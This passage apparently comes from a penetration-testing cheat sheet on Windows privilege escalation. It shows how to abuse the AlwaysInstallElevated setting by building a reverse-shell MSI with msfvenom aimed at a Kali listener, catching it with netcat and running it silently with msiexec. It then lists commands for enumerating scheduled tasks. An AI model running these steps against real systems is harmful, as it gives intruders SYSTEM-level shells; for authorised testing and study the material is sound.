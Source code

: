 * HKEY-LOCAL-MACHINE (HKLM)
* HKEY-CURRENT-USER (HKCU)

2\. Verify manually by querying registry for these keys

```
 reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
 
 AlwaysInstallElevated REG_DWORD 0x1
 
 
 reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
  
 AlwaysInstallElevated REG_DWORD 0x1
```

3\. To exploit this, we need to create a reverse shell with MSI formatting

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<kali-ip> LPORT=53 -f msi -o reverse.msi
```

4\. Set up a Netcat listener on Kali

```
nc -lnvp 53
```

5\. Transfer reverse.msi to the Windows machine

6\. Utilize msiexec via CLI to execute the reverse shell

```
msiexec /quiet /qn /i reverse.msi
```

## Scheduled Tasks

Windows can be configured to run tasks at specific times, periodically, or what triggered by an event.

Tasks are ran with the privileges who created them (usually).

However, administrators can configure tasks to be run as other users, including SYSTEM.

#### Commands

List all scheduled tasks your user can see

```
schtasks /query /fo LIST /v
```

PowerShell

```
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```

* <mark style="color:yellow;">It is very common to rely on clues such as finding a log file or a script that indicates that scheduled task(s) are being run.</mark>
* Once you find the name of the scheduled task, you can accesscheck it.
